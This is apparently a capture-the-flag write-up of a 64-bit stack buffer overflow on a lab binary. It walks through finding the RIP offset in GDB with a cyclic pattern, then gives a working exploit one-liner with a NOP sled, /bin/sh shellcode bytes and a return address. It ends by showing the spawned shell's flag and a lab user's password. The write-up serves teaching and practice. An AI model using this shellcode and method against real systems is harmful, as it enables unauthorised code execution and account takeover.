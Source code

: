 To verify control of RIP, I started with a big input and looked at the stack in GDB.

```abap
run < <(python3 -c 'print("A"*1000)')
```

```abap
x/100x $rsp
x/100x $rsp-1000
```

If I want a precise offset, I can also use a cyclic pattern (optional but solid):

```abap
# generate a unique pattern and run it
python3 - <<'PY' > /tmp/pat
from pwn import cyclic
print(cyclic(2000), end='')
PY

run < /tmp/pat
info registers rip
# Then compute:
python3 - <<'PY'
from pwn import cyclic, cyclic_find
rip = 0x???????????????  # paste RIP value from gdb
print(cyclic_find(rip))
PY
```

Note on offsets: the source hints “600-byte buffer + 8-byte saved RBP = 608,” but on this binary I actually needed **616** to overwrite RIP due to compiler alignment/local frame layout. I validated this with a marker crash and/or a cyclic pattern.

Next, I crafted a payload. I kept things simple: a NOP sled + 64-bit `/bin/sh` shellcode + post-shellcode filler + a little-endian return address that lands inside my NOP sled.

For the actual exploitation, I used compact `/bin/sh` shellcode and a small post-shellcode sled. I kept stdin open using `; cat` so my shell remained interactive.

```abap
(python -c 'print("\\x90"* (616 -27 - 50) + "\\x31\\xc0\\x48\\xbb\\xd1\\x9d\\x96\\x91\\xd0\\x8c\\x97\\xff\\x48\\xf7\\xdb\\x53\\x54\\x5f\\x99\\x52\\x57\\x54\\x5e\\xb0\\x3b\\x0f\\x05" + "\\x90" * 50 + "\\x7c\\xe3\\xff\\xff\\xff\\x7f\\x00\\x00")'; cat) | ./bof

```

With that I dropped into a shell as `kel`, read the user flag and credentials:

```abap
cat flag.txt
You flag is THM{buffer_overflow_in_64_bit}

The user credential
username: kel
password: kelvin_74656d7065726174757265
```
